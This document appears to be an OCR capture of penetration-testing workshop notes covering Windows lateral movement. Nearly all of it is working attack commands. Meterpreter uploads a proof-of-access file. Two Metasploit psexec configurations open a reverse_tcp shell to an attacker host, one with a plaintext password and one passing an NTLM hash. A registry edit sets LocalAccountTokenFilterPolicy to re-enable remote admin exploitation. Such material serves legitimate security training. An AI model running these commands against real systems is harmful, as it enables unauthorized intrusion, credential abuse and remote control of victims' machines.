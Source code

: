  
********************************** Prove access **********************************
 
meterpreter> upload /home/strategicsec/j0e-r0x.txt c:\\
 


********************************** Lateral Movement *******************************
 
 
Now we can run the PSEXEC exploit.
-- Option 1:
use exploit/windows/smb/psexec
 
set SMBUser Workshop
 
set SMBPass password
 
set RHOST 192.168.153.163
 
set payload windows/meterpreter/reverse_tcp
 
set LHOST 192.168.153.164
 
set LPORT 2345
 
exploit
 
 
 
 
-- Option 2:
use exploit/windows/smb/psexec
 
set SMBUser Workshop
 
set SMBPass aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
 
set payload windows/meterpreter/reverse_tcp
 
set RHOST 192.168.153.163                      
 
set LHOST 192.168.153.164
 
set LPORT 5678
 
exploit


#####################
# Fix broken PSExec #
#####################
- We use the shell command to get to the Victim Dos command so we can add a registry field.
 
meterpreter > execute -c -H -f cmd -a "/k" -i
reg /?
 
 
- Created a registry field to the Victim computer, this will allow us to access the machine using and exploit via PSEXEC.
 
C:\Windows\system32> reg ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system  /v LocalAccountTokenFilterPolicy  /t REG_DWORD  /d  1
